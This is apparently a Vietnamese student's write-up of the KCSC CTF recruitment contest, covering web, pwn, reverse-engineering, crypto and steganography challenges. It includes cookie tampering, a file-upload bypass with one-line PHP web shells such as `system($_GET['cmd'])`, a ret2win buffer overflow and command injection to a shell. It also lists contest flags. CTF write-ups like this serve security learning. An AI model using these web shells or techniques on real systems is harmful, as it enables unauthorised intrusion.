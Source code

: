 # Nguyễn Hùng Cường-AT190510-MB 
# TTV KCSC (16/12/2023-17/12/2023)
## Warmup
mình vào discord lấy flag

## web
### -Pokemon Hof Panel Level 1

đầu tiên mình bật intercept trên burp suit rồi vào web và chọn như bình thường và submit
![image](https://hackmd.io/_uploads/Byd1VJ3I6.png)

kết quả hiển thị là : mình không phải champion
![image](https://hackmd.io/_uploads/HJfFEynL6.png)

và gói tin mình chặn là:
![image](https://hackmd.io/_uploads/Hy4S8knUa.png)
ở đây có trường cookie mình đem ra decode để xem giá trị
![image](https://hackmd.io/_uploads/SygTL12IT.png)
lần lượt là url và base64
![image](https://hackmd.io/_uploads/SyT1wyn8a.png)

thấy trường isChampion có kiểu boolean và giá trị 0 nên mình chuyển lại thành 1 và encode 
![image](https://hackmd.io/_uploads/S1RZ_J28T.png)
rồi mình gửi lại gói tin đã sửa `Cookie: trainer_data` ở Repeater

và được flag
![image](https://hackmd.io/_uploads/SJDu_1n8T.png)

### -Mi Tom Thanh Long

mình đi xung quanh trang web thì không nhận được gì ngoài **"lần đầu tiên trái thanh long có trong mì tôm"**

có trường để nhập vào nhưng không send được:
![image](https://hackmd.io/_uploads/rJ9z913La.png)

mình nghĩ đây chỉ là phần fontend và không có manh mối gì nên thử dùng dirsearch để quét xem có thư mục hay tệp nào ẩn mà trang web không muốn hiện ra không 
`dirsearch -u http://103.162.14.116:10002/`
và tìm được file flag :+1: 
![image](https://hackmd.io/_uploads/r1iyj1h8T.png)

mình chuyển hướng đến đọc file này và được flag
![image](https://hackmd.io/_uploads/HkD4oy286.png)

### -Apply To KCSC


mình up 1 file thường lên và success
![image](https://hackmd.io/_uploads/B1zrlx2U6.png)

mình kiểm tra trang web thì thấy viết bằng php
![image](https://hackmd.io/_uploads/S1ZsZxhU6.png)


sau đó mình vào Burp Suite và send package vừa gửi sang repeater rồi thay đổi file phần mở rộng của file là `shell.php` và tạo nội dung bên trong một web shell là:

**<?php echo exec('whoami > /images/output.txt'); ?>**

sau đó mình gửi và vẫn thành công
gửi được rồi vậy đọc thì thế nào đây?
mình thử tìm file ảnh có logo của clb KCSC rồi thay đổi đường dẫn đến file mình vừa tạo **/images/output.txt**  nhưng không đọc được kết quả gì
sau một hồi mình thử shell khác cho phép tương tác trên url
**<?php system($_GET['cmd']); ?>** để tạo parameter **cmd** cho mình tương tác với hệ thống qua hàm system
sau đó mình gửi và vẫn thành công


![image](https://hackmd.io/_uploads/ryKfMxnI6.png)
và mình thử dùng dirsearch để tìm ra thư mục ẩn được thưu mục uploads:


![image](https://hackmd.io/_uploads/Hye04x3L6.png)

và mình lên đường link url thực hiện khai thác vào hệ thống
![image](https://hackmd.io/_uploads/S1az8x386.png)
mình vào từng thư mục cha của thư mục mình đang đứng ![image](https://hackmd.io/_uploads/ryoTLghIp.png)

và được flag  ![image](https://hackmd.io/_uploads/SJPVPg3U6.png)

![image](https://hackmd.io/_uploads/rJGbwx3Ua.png)



## PWN
### -A gift for pwners
mình dùng IDA để reverse và đi tìm xung quanh các hàm rồi nhận được flag
![image](https://hackmd.io/_uploads/BytxyN2Ip.png)
part1: KCSC{A_gift_
![image](https://hackmd.io/_uploads/BkXfk42La.png)
part2: for_the_
sau đó mình dùng lệnh `strings gift` để đọc được các đoạn text của chương trình và được part3
![image](https://hackmd.io/_uploads/r10ylV3Ip.png)
part3: pwners_0xdeadbeef}


### -strstr 
mình vào IDA để reverse
![image](https://hackmd.io/_uploads/HJD-ol3Ua.png)
mình thấy buf khai báo 48 byte mà hàm read lại cho nhập đến 0x40(64 byte) nên ở đây có lỗi buffer overflow
mình thấy đã có sẵn hàm win có chứa shell
![image](https://hackmd.io/_uploads/rkuw0gnI6.png)
nên mục tiêu của mình là ghi đè địa chỉ của win vào save rip trên stack để thực thi hàm này khi chương trình kết thúc 
![image](https://hackmd.io/_uploads/r1Dbs4nLp.png)
và mình debug động gặp lỗi xmm0
![image](https://hackmd.io/_uploads/HJZ69Vh8p.png)

do ở đây địa chỉ stack không chia hết cho 16 
![image](https://hackmd.io/_uploads/HyRoi42Ip.png)
nên mình nhảy vào vị trí `win + 1` và mình đã nhận được flag
![image](https://hackmd.io/_uploads/rJNTAJ28p.png)

### -linux command
![image](https://hackmd.io/_uploads/H1NKsmnI6.png)
mình có part1: KCSC{Linux_
mình dùng IDA để reverse và được 
![image](https://hackmd.io/_uploads/HyMOD-3Ua.png)
thấy có hàm system thực thi biến command ngay đầu vào của mình nhập và nó sẽ chép 22 byte đầu vậy từ 23 đến 32 byte sau thì sao?
![image](https://hackmd.io/_uploads/HyDM4-3Lp.png)

mình đã tận dụng mấy byte cuối bị thừa này đề thực thi shell
![image](https://hackmd.io/_uploads/rk7Ep7hLT.png)
ban đầu mình dùng ls và ra được các file và mình nghĩ đã có shell để thực thi rồi và cat các file nhưng không được vì có vẻ như bị chặn khoảng trắng và mình cố gắng tìm những lệnh linux để đọc file mà không cần  khoảng trắng. Nhưng đã quá muộn để nhận ra mình chỉ cần thêm /bin/sh và làm bất cứ điều gì mình muốn   
![image](https://hackmd.io/_uploads/SyxSM-3Up.png)
mình được part2: Commands_

![image](https://hackmd.io/_uploads/r1LvMZh8a.png)

mình được part3: You_MUST_Know_

![image](https://hackmd.io/_uploads/rybjG-38T.png)
mình được part4: bc6680c1a0d13d77_

![image](https://hackmd.io/_uploads/SkofQbnIa.png)

mình được part5: 8d73c59185b1e412}
![image](https://hackmd.io/_uploads/ry__m-2I6.png)

ghép lại được flag là **KCSC{Linux_Commands_You_MUST_Know_bc6680c1a0d13d77_8d73c59185b1e412}**

## RE
### -Real Warmup

mình dùng Ghidra và vào hàm main được:
![image](https://hackmd.io/_uploads/By9h1W2LT.png)


mình thấy chỉ khi biến local_108=**local_108,S0NTQ3tDaDQwYF9NfF98bjlgX0QzTidfVjAxJ183N1wvX0tDU0N9** thì chương trình mới thoát ra và in Great!!! có vẻ đó chính là flag
![image](https://hackmd.io/_uploads/rypkg-3LT.png)

mình lên Cyberchef giải mã đoạn trên và được flag: 
![image](https://hackmd.io/_uploads/rJj0lZ28p.png)





### -hide and seek

tìm loại file với lệnh file trên linux mình thấy đây là file PE32 của window
chạy file mình được 

![image](https://hackmd.io/_uploads/SkPPtgnUp.png)

trong dòng màu blue mình copy và paste ra được 1 đường dẫn thư mục chỉ đến thư mục rác của máy
**C:\Users\HP\AppData\Local\Temp**

![image](https://hackmd.io/_uploads/S1u7YgnUT.png)
chạy file này và mình được flag
![image](https://hackmd.io/_uploads/r1gMKl3IT.png)

## crypto

bài này dùng  mật mã caesar sẽ dịch chuyển các chữ cái so với ban đầu độ dài là key vì mình cần biết key để dịch lại nhưng chúng ta cũng có thể brute force để tìm ra flag
![image](https://hackmd.io/_uploads/SJsMT42I6.png)


![image](https://hackmd.io/_uploads/S13yTNnIp.png)


## Sister Location
mình làm bài này đầu tiên và mất rất nhiều thời gian vẫn không ra 
bài cho mình 1 file pdf có pass và 1 hình ảnh
![image](https://hackmd.io/_uploads/r14X1B3IT.png)

mình dùng john the rip thử crack mật khẩu file pdf nhưng không được

tiếp theo phân tích hình ảnh thấy có dòng chữ mờ góc trên bên trái 
![image](https://hackmd.io/_uploads/rJ6uJrh8p.png)
nên mình nghĩ có thể là stegano che dấu điều gì trong bức ảnh này nên mình dùng stegsolve ra 
![image](https://hackmd.io/_uploads/B1IQeHnIp.png)
red coordinates
![image](https://hackmd.io/_uploads/H11LeS386.png)
green coordinates
![image](https://hackmd.io/_uploads/BkwDeHhIp.png)
blue coordinates
![image](https://hackmd.io/_uploads/rkcueS38p.png)

ALPHA COORDINATES:
(1664:413)
(38:535)
(1173:683)
(1564:1075)
(983:113)
(196:430)

RED COORDINATES:
(523:731)
(751:127)
(1890:261)
(1776:279)

GREEN COORDINATES:
(352:91)
(241:777)
(1876:690)
(882:889)
(1815:144)
(177:625)
(1850:884)
(389:178)

BLUE COORDINATES:
(1267 :765)
(1849:78)
(1452:100)

mình thử biểu diễn ra tọa độ nhưng không được 
![image](https://hackmd.io/_uploads/S14nmrh86.png)
sang dạng nhị phân cũng không được 
![image](https://hackmd.io/_uploads/S1kxNr3LT.png)
và thử sang bit xem có ghép được thành chữ gì không

![image](https://hackmd.io/_uploads/BJ_rVS2UT.png)
và cũng không ra được gì
